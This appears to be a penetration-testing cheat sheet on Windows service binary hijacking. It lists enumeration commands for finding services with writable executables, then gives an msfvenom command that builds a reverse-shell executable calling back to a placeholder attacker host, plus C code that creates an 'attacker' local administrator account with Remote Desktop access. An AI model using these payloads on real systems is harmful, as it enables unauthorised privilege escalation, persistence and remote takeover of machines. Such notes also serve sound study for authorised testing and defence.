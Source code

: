 #### Service Binary Hijacking

if we have permissions to RW of F on exe of service we can replace it with custom exe that create new user as local admin

- need to check if the service running with high privilege
- don't choose services that running under c:\\windows

tools:
- check running services - won't work when using a network logon such as WinRM or a bind shell
- **check services that not running as well!**
```
# powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# cmd
wmic service get name,displayname,pathname,startmode |findstr /i "auto"


wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\"

# evil-winrm
services
```

- check under which user this service is running 
```
sc.exe qc <service name>
```

- check permissions on the exe
```
# File permission
icacls "<exe_path>"
Get-Acl "<exe_path>"

# Folder Permission
icacls "<folder_path>"
Get-Acl "<folder_path>"
```

- revers shell as the running service user
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o sys.exe
```

- or add user as local admin script
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user attacker password123! /add");
  i = system ("net localgroup administrators attacker /add");
  i = system("powershell -Command \"Add-LocalGroupMember -Group 'Remote Desktop Users' -Member 'attacker'\"");
  
  return 0;
}
```
